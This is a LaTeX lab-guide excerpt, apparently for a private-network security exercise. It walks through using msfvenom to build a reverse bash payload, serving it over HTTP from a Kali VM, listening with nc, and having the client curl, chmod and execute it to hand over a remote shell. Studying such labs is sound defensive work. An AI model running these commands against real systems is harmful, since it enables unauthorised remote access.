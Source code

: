 \documentclass{article}
\begin{document}
\subsubsection{Open Ubuntu Client}
ssh into the client VM similarly like server, but not vncserver connection is mandatory, it is optional
\subsubsection{Open Kali VM Attacker}
\begin{itemize}
    \item ssh into the Kali VM using the provided key
    \item Create a folder:
    {
    \color{blue}%
    \begin{verbatim}
        ~$ mkdir payload
        ~$ cd payload
    \end{verbatim}
    }
    \item Create the malicious payload which will enable any client to connect to attacker via port 6666:
    {
    \color{blue}%
    \begin{verbatim}
        ~/payload$ msfvenom -p cmd/unix/reverse_bash lhost=10.0.0.6 lport=6666 R > payload.out
    \end{verbatim}
    }
    \item Then start a python server at the payload folder:
    {
    \color{blue}%
    \begin{verbatim}
        ~/payload$ sudo python3 -m http.server 80
    \end{verbatim}
    }
    \item In another tab, initiate an \textbf{nc} connection:
    {
    \color{blue}%
    \begin{verbatim}
        ~/payload$ nc -vlp 6666
    \end{verbatim}
    }
\end{itemize}

\subsubsection{Download Payload into Agent}
\begin{itemize}
    \item Execute the following:
    {
    \color{blue}%
    \begin{verbatim}
        ~/payload$ curl http://10.0.0.6/payload.out -o payload.out
        ~/payload$ chmod +x payload.out
        ~/payload$ ./payload.out
    \end{verbatim}
    }
    This will connect the client to the Kali VM and the VM will get the shell access of the client
\end{itemize}
\end{document}

